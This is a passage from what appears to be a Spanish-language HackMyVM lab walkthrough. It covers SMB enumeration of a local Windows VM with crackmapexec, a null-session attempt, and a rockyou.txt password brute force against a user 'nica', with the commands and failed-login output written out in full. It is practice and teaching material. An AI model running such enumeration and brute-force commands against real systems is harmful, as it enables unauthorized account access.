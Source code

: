 # Ahora accedemos a la web para poder determinar qué tipo de vulnerabilidades podemos encontrar
  Vemos que hay algo que nos llama la atención **nica** (un usuario) 
  ![Untitled](/assets/images/2025-04-13-HackMyVM-Lia-easy/1.png)


## Reconocimiento SMB

  Ya que tenemos el SMB habilitado podemos intentar hacer un ataque de fuerza bruta en el servidor SMB ya que tenemos un usuario posiblemente valido

  Primero haremos un reconocimiento para ver a qué nos enfrentamos

  ```ruby
    ┌──(root㉿kali)-[/home/user]
    └─# creackmapexec smb 192.168.56.102
      SMB   192.168.56.102  445    WIN-IURF14RBVGV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-IURF14RBVGV) (domain:WIN-IURF14RBVGV) (signing:False) (SMBv1:False)

  ```
  Podemos observar cosas bastante interesantes como:

  **WIN-IURF14RBVGV**	Nombre del host de la máquina (NetBIOS name).

  **(domain:WIN-IURF14RBVGV)** No pertenece a un dominio externo, solo a su propio grupo de trabajo.

  **(signing:false)**	La firma de paquetes SMB está desactivada, lo cual nos permite hacer, Fuerza bruta, Pass-the-Hash...


## Intento de session nula SMB

  Podríamos intentar listar recursos con una sesión nula
  ```ruby
    ┌──(root㉿kali)-[/home/user]
    └─# crackmapexec smb 192.168.56.102 -u null -p '' --shares
      SMB   192.168.56.102  445    WIN-IURF14RBVGV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-IURF14RBVGV) (domain:WIN-IURF14RBVGV) (signing:False) (SMBv1:False)

    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\null: STATUS_LOGON_FAILURE
  ```
  Por lo que podemos observar, listar recusos con session **nula** no deja 

## Fuerza bruta al recurso SMB con el usuario "nica"

  Una vez hecho esto , intentaremos hacer un ataque de fuerza bruta al recurso SMB con el usuario encontrado anteriormente **nica**


```ruby
  ┌──(root㉿kali)-[/home/user]
  └─# crackmapexec smb 192.168.56.102 -u nica -p /usr/share/wordlists/rockyou.txt
    SMB         192.168.56.102  445    WIN-IURF14RBVGV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-IURF14RBVGV) (domain:WIN-IURF14RBVGV) (signing:False) (SMBv1:False)
    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\nica:123456 STATUS_LOGON_FAILURE
    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\nica:12345 STATUS_LOGON_FAILURE
    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\nica:123456789 STATUS_LOGON_FAILURE
    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\nica:password STATUS_LOGON_FAILURE
    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [-] WIN-IURF14RBVGV\nica:realizar STATUS_LOGON_FAILURE
```